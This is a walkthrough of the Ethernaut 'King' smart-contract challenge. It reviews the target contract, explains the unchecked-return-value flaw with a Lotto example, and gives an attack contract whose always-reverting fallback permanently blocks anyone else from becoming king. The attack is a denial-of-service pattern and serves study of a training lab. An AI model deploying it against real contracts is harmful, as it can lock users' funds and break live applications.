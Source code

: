 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

Challenge's message.

>The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
Such a fun game. Your goal is to break it.
When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


At the beginning of the contract, there are defined variables such as king, owner and prize. Also, these variables are assigned when the contract is created in the payable constructor. After the definition of king and king's prize, there is a specific function called ``receive()``that works to remand the new king's prize to the ex-king address and update the new king address and king's prize when someone is the owner or sends more than the king's ether to the contract. And finally, there is a function which returns us to current king address.

As with every challenge, this contract has some potential issues. One of these issues like forgot to check the external process status. Here we go...

# Subverting

Before talking about my attack contract, I want to explain some topics. If you know about the vulnerability of **uncheck calls returns value**, you would skip this part.

### Calls In Solidity 

There are a number of ways of performing external calls in Solidity. Sending ether to external accounts is commonly performed via the ``transfer`` method. However, the ``send`` function can also be used, and for more versatile external calls the ``call`` **opcode** can be directly employed in Solidity. You can start an external calls in the contract with send ether to other contracts by

  - ``transfer`` :  (2300 gas, throws error)
  - ``send`` : (2300 gas, returns bool)
  - ``call`` : (forward all gas or set gas, returns bool)

this methods. Here we can see that when we use to send or call to send ether or perform any transactions, it returns a boolean value i.e. true or false. Unless you check this return value, you will face something critical vulnerability.

### Security Issue : Uncheck Calls Returns Value

 The ``call`` and ``send`` functions return a boolean indicating whether the call succeeded or failed. As a result, if the call return value is not checked, execution will resume even if the called contract throws an exception. If the call fails accidentally or an attacker forces the call to fail, this may cause unexpected behavior in the subsequent program logic. Here is a contract which too has an example of this problem.
 
 ```solidity
 
contract Lotto {
    bool public payedOut = false;
    address public winner;
    uint public winAmount;

    // ... extra functionality here

    function sendToWinner() public {
        require(!payedOut);
        winner.send(winAmount);
        payedOut = true;
    }

    function withdrawLeftOver() public {
        require(payedOut);
        msg.sender.send(this.balance);
    }
}
 
 ```
 This represents a Lotto-like contract, where a ``winner`` receives ``winAmount`` of ether, which typically leaves a little left over for anyone to withdraw.

The vulnerability exists on sendToWinner() function, where a send is used without checking the response. In this example, a winner whose transaction fails (either by running out of gas or by being a contract that intentionally throws in the fallback function) allows ``payedOut`` to be set to ``true`` regardless of whether ether was sent or not. In this case, **anyone can withdraw the winner’s winnings via the withdrawLeftOver function**.

## Attack Contract

Here is my attack contract.

```solidity
pragma solidity ^0.8.0;

import './King.sol';

contract Attack{

    King target;

    constructor(address payable _target) payable{
        target = King(_target);
        address(target).call{value: msg.value}("");
    }

    fallback()external{
        revert("Hack ponzi");
    }
}
```

First thing first is as always solidity version and import our target contract's file into attack contract. After that, get the instance of target contract and call it with sending more than king's prize in the constructor. When the ``call`` method works, the target contract will send ether to ex king's address and updated the attack contract as new king. Also, when someone wants to be a new king of target contract, he/she won't be a new king because of our fallback() function will have blocked this process. 

To explain more clearly, if the target contract change to kingship as different from attack contract, it will send ether to this contract but in the fallback() will have reverted to transaction. In this way, we'll stay king of the target contract every time.

### Attack Senario

Check the king of target contarct.

```shell
await contract._king()
'0x3049C00639E6dfC269ED1451764a046f7aE500c6'
```

Check the king's prize.

```shell

fromWei(await contract.prize())
'0.001'

```
When we deploy the attack contract, we must send higher than this price. It equals to 1000000000000000 wei. Let's send 2000000000000000 wei to attack contract's constructor and deploy it.

<p align="center"><img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/King/src/deploy.png"></p>

And we get kingship of the contract forever. As ponzi getsXD

```shell
await contract._king()
'0xE27F0dB592D69A14f5FD26ba434056e22C375388'
```

**_by wasny0ps_**
